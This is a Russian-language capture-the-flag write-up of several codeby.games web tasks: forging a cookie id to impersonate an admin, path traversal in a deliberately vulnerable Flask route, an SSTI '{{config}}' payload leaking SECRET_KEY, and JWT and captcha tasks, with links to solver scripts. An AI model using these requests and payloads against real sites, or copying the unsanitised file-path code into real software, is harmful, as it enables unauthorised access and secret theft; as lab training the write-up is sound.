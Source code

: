 ### Writeup`s WEB:
___

#### Банка для печенья :cookie:: 
<details><summary></summary>
Нас встречает следующее описание: 
>"Что ж, цель - стать админом!"

Переходим на 62.173.140.174:16003. Что у нас есть:
* Известно количество пользователей -128
* Наш id

Вероятнее всего от нас хотят, чтобы мы получили id админа. Как правило id админа это или 1,или 0.
Заходим в BurpSuite, отправляем запрос на сайт:

```
GET / HTTP/1.1
Host: 62.173.140.174:16003
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
Получаем ответ:
```
HTTP/1.1 200 OK
date: Mon, 17 Apr 2023 06:32:11 GMT
server: uvicorn
content-length: 204
content-type: text/plain; charset=utf-8
set-cookie: id=107; Path=/; SameSite=lax
Connection: close

Привет! Я написал небольшое приложение рассчитанное на 128 пользователей. Твоя цель - стать админом.

Твой айди: 107
```
Видим header http запроса:
```
set-cookie: id=107; Path=/`
```
Попробуем в тело первого запроса установить header "Cookie: id=1"

```
GET / HTTP/1.1
Host: 62.173.140.174:16003
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: id=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
Получаем ответ:
```
HTTP/1.1 200 OK
date: Mon, 17 Apr 2023 06:35:27 GMT
server: uvicorn
content-length: 202
content-type: text/plain; charset=utf-8
Connection: close

Привет! Я написал небольшое приложение рассчитанное на 128 пользователей. Твоя цель - стать админом.

Твой айди: 1
```
Как видим, флага нет, аналогично с id=0. Что ж, вероятнее всего придется брутить все 128 id, так как пользователей всего 128.
Чтобы не делать этого в ручную [(resolved) Банка для печенья.py](https://github.com/WNS-Team/codeby.games/blob/main/Web/(resolved)%20%D0%91%D0%B0%D0%BD%D0%BA%D0%B0%20%D0%B4%D0%BB%D1%8F%20%D0%BF%D0%B5%D1%87%D0%B5%D0%BD%D1%8C%D1%8F.py)
</details>

#### Обычная страница :newspaper::

<details><summary></summary>

Итак:
>"Решил попрактиковаться в написании приложений на Flask-e. Флаг лежит по пути "/flag.txt" :D"

Изначально из описания: "Флаг лежит по пути "/flag.txt" :D" можно предположить, что мы имеем дело с уязвимостью DirectoryTraversal

Проанализируем код, который мы видим, когда открываем страницу с заданием:
```
from flask import Flask, render_template, request, abort, send_file
from os import getcwd
from os.path import exists

app = Flask(__name__)
working_dir = getcwd()


@app.route('/')
def root():
    return render_template("index.html")


@app.route('/static')
def get_static():
    file_path = f"{working_dir}/static/{request.args.get('file')}"

    if exists(file_path):
        return send_file(file_path)
    else:
        abort(404)


def main():
    app.run()


if __name__ == '__main__':
    main()
```
Мне эти строки в коде показались подозрительными, ``` def get_static():
    file_path = f"{working_dir}/static/{request.args.get('file')}```, поэтому недолго думая, я решил эксплуатировать Directory Traversal именно там. Пример автоматизированной эксплуатации:  [(resolved) Обычная страница.py](https://github.com/WNS-Team/codeby.games/blob/main/Web/(resolved)%20%D0%9E%D0%B1%D1%8B%D1%87%D0%BD%D0%B0%D1%8F%20%D1%81%D1%82%D1%80%D0%B0%D0%BD%D0%B8%D1%86%D0%B0.py)
</details>

#### Поздравительное приложение :birthday::
<details><summary></summary>

Начинаем с описания:
> "Сделал вот свое приложение, чтобы здороваться со всем миром. Флаг - значение SECRET_KEY в конфиге."

Замечательно, приступим к решению.
Нас встречает:
```
Hello, it's my greeting app
Example: Greeting Joe
```
Попробуем пользоваться приложением. Клацаем на ___Greeting Joe___ и попадаем на страничку  ```http://62.173.140.174:16004/joe```. Вероятнее всего здесь используются шаблоны, попробуем отправить следующий запрос ```http://62.173.140.174:16004/test```

Получаем: 
```
Hello, test!
Home
```
Неплохо, вероятнее всего это уязвим к SSTI. Пробуем payload ```http://62.173.140.174:16004/%7B%7Bconfig%7D%7D``` и вуаля! Автоматизированная эксплуатация: [(resolved) Поздравительное приложение.py](https://github.com/WNS-Team/codeby.games/blob/main/Web/(resolved)%20%D0%9F%D0%BE%D0%B7%D0%B4%D1%80%D0%B0%D0%B2%D0%B8%D1%82%D0%B5%D0%BB%D1%8C%D0%BD%D0%BE%D0%B5%20%D0%BF%D1%80%D0%B8%D0%BB%D0%BE%D0%B6%D0%B5%D0%BD%D0%B8%D0%B5.py)
</details>

#### Приключение с флагом :triangular_flag_on_post::
<details><summary></summary>
Описание:

> "Я спрятал 4 части флага, попробуй их найти)"

Так, ну тот все предельно просто. Открываем консоль разработчик и приступаем к поиску:

Первую часть можно сразу увидеть в <head></head>
Вторая часть расположилась в main.js
Часть три в style.css
Ну и последняя в /robots.txt
Автоматизированное решение: [(resolved) Приключение с флагом.py](https://github.com/WNS-Team/codeby.games/blob/main/Web/(resolved)%20%D0%9F%D1%80%D0%B8%D0%BA%D0%BB%D1%8E%D1%87%D0%B5%D0%BD%D0%B8%D0%B5%20%D1%81%20%D1%84%D0%BB%D0%B0%D0%B3%D0%BE%D0%BC.py)

</details>

#### Разминка с JWT + Момент с JWT :closed_lock_with_key::
<details><summary></summary>
Описание разминка с JWT

> "Разминочный таск на JWT, перед таском посложнее"

Описание Момент с JWT:

> "JWT таск для настоящих ♂ Perfomance Artists ♂"

Автоматизированное решение: [(resolved) Разминка с JWT + Момент с JWT.py](https://github.com/WNS-Team/codeby.games/blob/main/Web/(resolved)%20%D0%A0%D0%B0%D0%B7%D0%BC%D0%B8%D0%BD%D0%BA%D0%B0%20%D1%81%20JWT%20%2B%20%20%D0%9C%D0%BE%D0%BC%D0%B5%D0%BD%D1%82%20%D1%81%20JWT.py)

</details>

#### Я не робот :robot::
<details><summary></summary>
Описание:

> "Докажи, что ты (не) робот!"

Приступим к решению: 

Анализируем, что есть:

* Captha на начальной странице
* Строка в base, из которой можно узнать условие решения capth
* Надо решить 50 раз
* В консоли разработчика можно увидеть, что используется websocket

Можно, конечно, 50 раз ручками решить капчу, но это не путь самурая, поэтому автоматизированное решение: [(resolved) Я не робот!.py](https://github.com/WNS-Team/codeby.games/blob/main/Web/(resolved)%20%D0%AF%20%D0%BD%D0%B5%20%D1%80%D0%BE%D0%B1%D0%BE%D1%82!.py)

</details>

___